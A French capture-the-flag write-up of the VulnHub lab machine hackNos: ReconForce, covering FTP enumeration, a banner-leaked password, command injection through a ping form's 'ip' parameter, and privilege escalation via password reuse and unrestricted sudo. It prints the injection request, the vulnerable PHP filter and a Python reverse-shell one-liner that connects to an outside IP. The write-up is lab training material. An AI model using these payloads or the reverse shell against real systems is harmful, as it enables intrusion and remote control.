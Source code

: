 ```yaml
---
title: "Solution du CTF hackNos: ReconForce de VulnHub"
tags: [CTF,VulnHub]
---
```


[hackNos: ReconForce](https://vulnhub.com/entry/hacknos-reconforce-v11,416/) est un boot2root mis en ligne en janvier 2020 sur *VulnHub*.

## Sean Reconnery

Une fois n'est pas coutume je commence par un `Nuclei` :

```console
$ nuclei -u http://192.168.56.222/

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v2.9.4

                projectdiscovery.io

[INF] Current nuclei version: v2.9.4 (outdated)
[INF] Current nuclei-templates version: 9.5.0 (latest)
[INF] New templates added in latest release: 62
[INF] Templates loaded for current scan: 5958
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1059 (Reduced 1000 Requests)
[apache-detect] [http] [info] http://192.168.56.222/ [Apache/2.4.41 (Ubuntu)]
--- snip ---
[openssh-detect] [tcp] [info] 192.168.56.222:22 [SSH-2.0-OpenSSH_8.0p1 Ubuntu-6build1]
[ftp-anonymous-login] [tcp] [medium] 192.168.56.222:21
```

Ici ça tombe bien, car la VM n'écoute pas sur des ports exotiques.

Je me connecte au FTP pour voir ce qu'il a dans le ventre et un entête semble m'offrir un mot de passe :

```console
$ ftp anonymous@192.168.56.222
Connected to 192.168.56.222.
220 "Security@hackNos".
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
229 Entering Extended Passive Mode (|||10218|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        117          4096 Jan 06  2020 .
drwxr-xr-x    2 0        117          4096 Jan 06  2020 ..
226 Directory send OK.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||54726|)
550 Permission denied.
```

Le FTP est vide et je ne peux rien déposer dessus.

Sur le site web je trouve un lien vers `/5ecure/` qui demande des identifiants.

Je réussis à passer l'authentification avec `admin` / `Security@hackNos`.

Je tome alors face à un formulaire qui sent l'exécution de commande à plein nez :

```html
<form name="ping" action="out.php" method="post">
	<p>
		<h6>Enter an IP address:<h6>
		<input type="text" name="ip" size="30">
		<input type="submit" name="Submit" value="Ping_Scan">
	</p>
</form>
```

`Wapiti` va nous aider à mettre les choses au clair :

```console
$ wapiti --auth-cred "admin%Security@hackNos" --auth-method basic -u http://192.168.56.222/5ecure/ -m exec,file -v2 --color

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.1.7 (wapiti-scanner.github.io)
[+] GET http://192.168.56.222/5ecure/ (0)
[+] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=default&Submit=Ping_Scan
[+] GET http://192.168.56.222/5ecure/out.php (1)
[*] Saving scan state, please wait...
This scan has been saved in the file /home/sirius/.wapiti/scans/192.168.56.222_folder_c61c5d48.db
[*] Wapiti found 3 URLs and forms during the scan
[*] Existing modules:
         backup, brute_login_form, buster, cookieflags, crlf, csp, csrf, drupal_enum, exec, file, htaccess, htp, http_headers, log4shell, methods, nikto, permanentxss, redirect, shellshock, sql, ssl, ssrf, takeover, timesql, wapp, wp_enum, xss, xxe

[*] Launching module exec
[+] GET http://192.168.56.222/5ecure/ (0)
[+] GET http://192.168.56.222/5ecure/out.php (1)
[+] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=default&Submit=Ping_Scan
[¨] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=%3Benv%3B&Submit=Ping_Scan
[¨] POST http://192.168.56.222/5ecure/out.php (1)
        data: ip=%7Cenv&Submit=Ping_Scan
---
Command execution in http://192.168.56.222/5ecure/out.php via injection in the parameter ip
Evil request:
    POST /5ecure/out.php HTTP/1.1
    host: 192.168.56.222
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.56.222/5ecure/
    content-length: 26
    authorization: Basic YWRtaW46U2VjdXJpdHlAaGFja05vcw==
    Content-Type: application/x-www-form-urlencoded

    ip=%7Cenv&Submit=Ping_Scan
---
```

Donc l'injection de commandes est possible, mais via les pipes uniquement.

Je peux faire afficher le code du script `out.php` pour en savoir plus :

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
```

Le code retire différents caractères qu'il juge dangereux. Le retrait des tirets rend impossible de passer des options à la plupart des commandes.

Pour connaître l'architecture du système je peux utiliser la commande `arch`  qui m'indique `x86_64`. Je peux alors rapatrier un `reverse-ssh` pour cette architecture et le mettre en écoute.

## Repassword

Une fois sur le système je trouve un flag dans le dossier de l'utilisateur `recon`.

```console
www-data@hacknos:/$ cat /home/recon/user.txt 
###########################################

MD5HASH: bae11ce4f67af91fa58576c1da2aad4b
```

Et aussi un script qui lui appartient dans `/var/opt` :

```console
www-data@hacknos:/$ find / -user recon -ls 2> /dev/null 
   405659      4 drwxr-xr-x   4 recon    docker       4096 Jan 10  2020 /home/recon
   399419      0 -rw-------   1 recon    docker          0 Jan 10  2020 /home/recon/.bash_history
   405660      4 -rw-r--r--   1 recon    docker       3771 May  5  2019 /home/recon/.bashrc
   405661      4 -rw-r--r--   1 recon    docker        220 May  5  2019 /home/recon/.bash_logout
   405718      0 -rw-r--r--   1 recon    docker          0 Jan  6  2020 /home/recon/.sudo_as_admin_successful
   407282      4 drwx------   2 recon    docker       4096 Jan  6  2020 /home/recon/.cache
   407280      4 drwx------   3 recon    docker       4096 Jan  6  2020 /home/recon/.gnupg
   405662      4 -rw-r--r--   1 recon    docker        807 May  5  2019 /home/recon/.profile
   523002      4 -rwxrwxrwx   1 recon    www-data      220 Jan 10  2020 /var/opt/python.py
www-data@hacknos:/$ cat /var/opt/python.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

Ce script est-il appelé via une crontab ? Je l'ai modifié pour qu'il se connecte à mon IP, mais je n'ai rien reçu.

Finalement j'ai testé les identifiants `recon`  / `Security@hackNos` via `su` et c'est passé.

L'utilisateur a des permissions `sudo` lui permettant de faire tout ce qu'il souhaite :

```console
recon@hacknos:/tmp$ sudo -l
[sudo] password for recon: 
Matching Defaults entries for recon on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User recon may run the following commands on hacknos:
    (ALL : ALL) ALL
recon@hacknos:/tmp$ sudo su
root@hacknos:/tmp# cd /root
root@hacknos:~# ls
root.txt  snap
root@hacknos:~# cat root.txt
     $$\          $$$$$$$\                                          
     \$$\         $$  __$$\                                         
$$$$\ \$$\        $$ |  $$ | $$$$$$\   $$$$$$$\  $$$$$$\  $$$$$$$\  
\____| \$$\       $$$$$$$  |$$  __$$\ $$  _____|$$  __$$\ $$  __$$\ 
$$$$\  $$  |      $$  __$$< $$$$$$$$ |$$ /      $$ /  $$ |$$ |  $$ |
\____|$$  /       $$ |  $$ |$$   ____|$$ |      $$ |  $$ |$$ |  $$ |
     $$  /        $$ |  $$ |\$$$$$$$\ \$$$$$$$\ \$$$$$$  |$$ |  $$ |
     \__/         \__|  \__| \_______| \_______| \______/ \__|  \__|
                                                                    
                                                                    
                                                                    

MD5HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

WebBlog: www.hackNos.com

Twitter: @rahul_gehlaut
```
